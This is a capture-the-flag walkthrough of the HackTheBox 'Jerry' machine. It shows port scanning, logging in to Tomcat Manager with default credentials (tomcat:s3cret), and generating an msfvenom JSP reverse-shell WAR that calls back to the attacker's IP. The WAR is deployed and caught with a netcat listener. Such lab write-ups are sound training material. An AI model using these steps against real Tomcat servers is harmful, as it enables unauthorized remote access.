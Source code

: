```yaml
---
Platform:
  - HackTheBox
Category: Web
Difficulty: Easy
tags:
  - RCE
  - arbitrary-file-upload
  - default-credentials
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Machine
---
```

Hello everyone, In this blog we are going to solve Jerry from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Jerry](https://app.hackthebox.com/machines/Jerry)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.95 -- -A -T4 -v -Pn`

![[Jerry/assets/Untitled.png|Untitled.png]]

![[Jerry/assets/Untitled 1.png|Untitled 1.png]]

From the results of `rustscan`, we can see that on port `8080`, Apache Tomcat service is running.

I visited the web server running on `http://10.10.10.95:8080/`.

![[Jerry/assets/Untitled 2.png|Untitled 2.png]]

We can see the default home page of the Apache Tomcat server. I started exploring by clicking all the buttons and links in the home page.

![[Jerry/assets/Untitled 3.png|Untitled 3.png]]

I clicked the Manager App button and it redirected me to the following link: [http://10.10.10.95:8080/manager/html](http://10.10.10.95:8080/manager/html), which prompted me for a username and password:

![[Jerry/assets/Untitled 4.png|Untitled 4.png]]

On investigating about the above URL, I found this [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials)

![[Jerry/assets/Untitled 5.png|Untitled 5.png]]

So I tried `admin:admin` combination in the prompt and it thrown me the following error:

![[Jerry/assets/Untitled 6.png|Untitled 6.png]]

from the above error, we can see that they have shown a example, in which they have used `tomcat:s3cret` combination. Let’s give it a try with this combination.

![[Jerry/assets/Untitled 7.png|Untitled 7.png]]

It worked and we got access to the Application Manager.

Further surfing the Application Manager, we can see that there is an option to upload files of type WAR.

![[Jerry/assets/Untitled 8.png|Untitled 8.png]]

We can generate a `msfvenom` reverse shell and upload it as mentioned here: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell)

![[Jerry/assets/Untitled 9.png|Untitled 9.png]]

Generate the Reverse Shell using the following command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HTB_tun_IP> LPORT=8888 -f war -o revshell.war`

![[Jerry/assets/Untitled 10.png|Untitled 10.png]]

Now upload this `revshell.war` file and click deploy.

![[Jerry/assets/Untitled 11.png|Untitled 11.png]]

Now if we check the Applications table, we can see that a new path `/revshell` is generated.

![[Jerry/assets/Untitled 12.png|Untitled 12.png]]

Before clicking or viewing the `/revshell` link, start a `netcat` listener on your attack box / local machine on port `8888`

![[Jerry/assets/Untitled 13.png|Untitled 13.png]]

Now click the `/revshell` and check the `netcat` listener.

![[Jerry/assets/Untitled 14.png|Untitled 14.png]]

![[Jerry/assets/Untitled 15.png|Untitled 15.png]]

We have successfully got access to the target machine.

Now we have to look out for the flags. I started surfing the machine. I visited the `C:\Users` directory and found the following users:

![[Jerry/assets/Untitled 16.png|Untitled 16.png]]

I checked the Administrator directory. In the Desktop folder of Administrator found the `flags` directory.

![[Jerry/assets/Untitled 17.png|Untitled 17.png]]

The flags directory had a file named `2 for the price of 1.txt`.

You can view the contents of the `2 for the price of 1.txt` file using the command: `more "2 for the price of 1.txt"`

![[Jerry/assets/Untitled 18.png|Untitled 18.png]]

We have successfully found both the user and root flags.

  

Thank You !!!!!!!